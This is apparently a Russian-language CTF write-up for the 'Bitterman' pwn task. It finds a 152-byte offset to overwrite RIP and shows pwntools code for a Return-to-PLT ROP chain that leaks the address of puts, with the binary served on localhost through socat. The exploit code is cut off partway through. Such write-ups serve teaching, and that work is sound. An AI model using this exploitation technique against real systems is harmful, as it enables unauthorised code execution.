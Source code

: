 ```c
```

Второй вызов `read_nbytes` происходит с подконтрольным нам значением количества байт, которые нужно считать, а размер буфера фиксирован — 64 байта. Уверен, ты уже понял, что нужно делать... :smiling_imp:

## Динамический анализ

Запустим отладчик и рассчитаем точку перезаписи RIP с помощью циклического паттерна.

[![bitterman-pattern-create.png]({{ "/img/pwn-kingdom/bitterman/bitterman-pattern-create.png" | relative_url }})]({{ "/img/pwn-kingdom/bitterman/bitterman-pattern-create.png" | relative_url }})
{: .center-image}

Генерим строку в 500 символов и скармливаем программе в уязвимом input'е.

[![bitterman-pattern-offset.png]({{ "/img/pwn-kingdom/bitterman/bitterman-pattern-offset.png" | relative_url }})]({{ "/img/pwn-kingdom/bitterman/bitterman-pattern-offset.png" | relative_url }})
{: .center-image}

Итак, нам нужно 152 байта для того, чтобы добраться до адреса возврата.

## Темная магия pwntools

Вектор атаки точно такой же, как в тренировочном кейсе № 3, и чтобы не повторяться с почти таким же кодом эксплоита, я покажу, как pwntools позволяет практически полностью автоматизировать действия нарушителя.

Чтобы немного разнообразить наш девелопмент, с помощью `socat` подвесим процесс Bitterman'а к localhost'у на порт `10103` (оригинальность таска сохранена), чтобы можно было подключаться к нему через сокет из соседнего терминала.

```
$ socat TCP-LISTEN:10103,reuseaddr,fork EXEC:./bitterman
```

Из-за этого нововведения я буду обращаться к процессу с помощью функции `pwnlib.tubes.remote`, а не `pwnlib.tubes.process`, как раньше.

### Фаза 1. Return-to-PLT

Разберем будущий сплоит по частям. В первой фазе (Return-to-PLT), как ты помнишь, мы искали нужные гаджеты для того, чтобы узнать реальный адрес функции `puts`.

```python
# ----------------- Фаза 1. Return-to-PLT ------------------

bitterman = ELF('./bitterman')
rop = ROP(bitterman)

log.info('Фаза 1. Return-to-PLT')
rop.puts(bitterman.got['puts'])
log.success('Найдены адреса puts (PLT & GOT)')
rop.call(bitterman.symbols['main'])
log.success('Найден адрес main')
log.info('ROP:\n' + rop.dump())

junk = 'A' * (cyclic_find(unhex('6261616f')[::-1]) - 4)  # 'A' * 152
log.success('Вычислено смещение последовательности де Брёйна: %s' % len(junk))

payload = junk + str(rop)

r = remote('localhost', '10103')
#p = process('./bitterman')

"""
gdb.attach(p, '''
```

[//]: # (2019-10-23)